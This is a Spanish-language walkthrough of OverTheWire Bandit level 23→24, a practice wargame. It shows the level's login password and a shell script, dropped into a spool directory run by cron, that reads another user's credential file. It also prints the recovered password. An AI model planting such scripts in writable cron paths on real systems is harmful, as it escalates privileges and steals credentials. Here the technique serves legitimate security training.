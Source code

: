 # Bandit Level 23 → Level 24

## Objetivo de nivel
Un programa se ejecuta automáticamente a intervalos regulares desde **cron**, el programador de trabajos basado en el tiempo. Busque en /**etc/cron.d/** la configuración y ver qué comando se está ejecutando.

**NOTA:** Este nivel requiere que crees tu propio primero shell-script. Este es un paso muy grande del que deberías estar orgulloso. ¡Tú mismo cuando superas este nivel!

**NOTA 2:** Tenga en cuenta que su script de shell se elimina una vez ejecutado, por lo que es posible que desee mantener una copia alrededor ...

## Datos de acceso al nivel
``` bash
ssh bandit23@bandit.labs.overthewire.org -p 2220
bandit23
QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G
```

## Solución
``` bash
bandit23@bandit:~$ mkdir /tmp/jmjp00
bandit23@bandit:~$ cd /tmp
bandit23@bandit:/tmp$ cd jmjp00
bandit23@bandit:/tmp/jmjp00$ nano jmjpscript.sh
Unable to create directory /home/bandit23/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

bandit23@bandit:/tmp/jmjp00$ cat jmjpscript.sh
cat /etc/bandit_pass/bandit24 > /tmp/jmjp00/password
bandit23@bandit:/tmp/jmjp00$ chmod 777 jmjpscript.sh
bandit23@bandit:/tmp/jmjp00$ touch password
bandit23@bandit:/tmp/jmjp00$ chmod 666 password
bandit23@bandit:/tmp/jmjp00$ ls -la
total 112
drwxrwxr-x    2 bandit23 bandit23   4096 Feb 28 18:33 .
drwxrwx-wt 3010 root     root     106496 Feb 28 18:33 ..
-rwxrwxrwx    1 bandit23 bandit23     53 Feb 28 18:32 jmjpscript.sh
-rw-rw-rw-    1 bandit23 bandit23      0 Feb 28 18:33 password
bandit23@bandit:/tmp/jmjp00$ cp jmjpscript.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/jmjp00$ ls -la
total 116
drwxrwxr-x    2 bandit23 bandit23   4096 Feb 28 18:33 .
drwxrwx-wt 3010 root     root     106496 Feb 28 18:36 ..
-rwxrwxrwx    1 bandit23 bandit23     53 Feb 28 18:32 jmjpscript.sh
-rw-rw-rw-    1 bandit23 bandit23     33 Feb 28 18:36 password
bandit23@bandit:/tmp/jmjp00$ cat password
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```
## Notas adicionales


## Referencias
